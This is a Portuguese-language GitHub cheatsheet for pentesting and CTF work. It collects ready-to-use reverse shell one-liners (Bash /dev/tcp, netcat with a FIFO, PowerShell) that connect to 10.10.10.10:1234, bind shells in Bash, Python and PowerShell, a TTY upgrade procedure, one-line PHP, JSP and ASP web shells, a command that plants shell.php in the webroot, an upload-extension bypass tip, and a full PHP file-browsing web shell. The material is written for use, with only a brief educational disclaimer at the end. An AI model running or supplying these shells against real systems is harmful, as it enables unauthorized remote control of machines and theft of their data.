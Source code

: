 # 🐚 Cheatsheet: Reverse Shells, Bind Shells & TTY

Este repositório traz um conjunto prático de comandos úteis para obtenção de shells remotas durante testes de penetração, exploração ou CTFs.

Gerador de shell reversa bastante útil: [reverse-shell.sh](https://reverse-shell.sh/)

---

## 📡 Reverse Shell

Um *reverse shell* é quando a máquina alvo se conecta de volta ao nosso host, nos fornecendo uma shell remota.

- Bash: `bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'`
- Netcat + FIFO: `rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.10.10 1234 >/tmp/f`
- PowerShell: `powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"`

---

## 🔗 Bind Shell

Um *bind shell* escuta conexões em uma porta específica da máquina alvo. Diferente do reverse shell, **nós nos conectamos ao alvo**.

- Bash: `rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -lvp 1234 >/tmp/f`
- Python: `python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();while True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'`
- PowerShell: `powershell -NoP -NonI -W Hidden -Exec Bypass -Command "$listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + ' ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

---

## 🖥️ TTY Shell Upgrade

Use isso para obter uma shell mais interativa (ex: com tab-completion e atalhos funcionais):

1. Use: `python -c 'import pty; pty.spawn("/bin/bash")'`
2. Coloque a shell em segundo plano com `CTRL + Z`
3. No seu terminal local, digite: `stty raw -echo`
4. Volte para a shell com `fg` e pressione `Enter` duas vezes
5. A shell agora está interativa!

Podemos notar que nosso shell não cobre todo o terminal. Para corrigir isso, precisamos descobrir algumas variáveis. Podemos abrir outra janela de terminal em nosso sistema, maximizar as janelas ou usar qualquer tamanho que quisermos e, em seguida, inserir os seguintes comandos para obter nossas variáveis:

- Gust4vo@htb[/htb]$ echo $TERM xterm-256color
- Gust4vo@htb[/htb]$ stty size 67 318



---

## ℹ️ Notas

- Substitua `10.10.10.10` pelo seu IP local
- Altere a porta `1234` conforme necessário
- Para escutar conexões, use: `nc -lvnp 1234`

---

## 🌐 Web Shell

A *Web Shell* normalmente é um script web, ou seja., PHP ou ASPX, que aceita nosso comando através de parâmetros de solicitação HTTP, tais como GET ou POST solicitar parâmetros, executa nosso comando e imprime sua saída de volta na página da web.

- php: `<?php system($GET["cmd"]); ?>`
- jsp: `<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>`
- asp: `<% eval request("cmd") %>`

Uma vez que temos o nosso shell web, precisamos colocar o nosso script shell web no diretório web do host remoto (webroot) para executar o script através do navegador web.


Se fosse um Linux executando Apache por exemplo seria `echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php`, e podemos acessar a web shell pela URL e pelo curl.

curl "http://example.com/shell.php?cmd=whoami"

---

## Tecnicas de bypass de extensão shell </br>
<img width="542" height="848" alt="image" src="https://github.com/user-attachments/assets/af956b20-0722-46e8-9d86-e8e386792023" />

- GIF89a; na primeira linha tbm util para bypass

---

## Shell em PHP 

Shell simples para navegação e vizualização de diretorios do web server (credits: HackerSec)

```php
<?php
$path = $_GET['v'];
$action = $_GET['a'];

echo "Servidor <br>";

if($action == true){

echo "<textarea class='form-control' name='textl'>";

$arquivo_edit = fopen ($action, 'r') or die("Unable to open file!");

while( !feof($arquivo_edit)){
$linha = fgets($arquivo_edit);
echo htmlspecialchars($linha);

}

fclose($arquivo_edit);


echo "</textarea>";



}else{




if($path == false){
$path = "./";
}else{
$path = $path;
}

$diretorio = dir($path);


while($arquivo = $diretorio -> read()){

$arquivoex = substr($arquivo, strripos($arquivo, '.'));

if($arquivoex == ".php" or $arquivoex == ".js" or $arquivoex == ".css" or $arquivoex == ".txt"){
$mostrar = "<a href='shell.php?a=$path$arquivo'>".$arquivo."</a><br>";
}else{
$mostrar = "<a href='shell.php?v=$path$arquivo/'>".$arquivo."</a><br>";
}

echo $mostrar;

}
$diretorio -> close();
}



?>
```
---

> ⚠️ **Aviso legal:** Todos os comandos aqui têm propósito educacional e devem ser utilizados somente em ambientes controlados ou com permissão explícita.
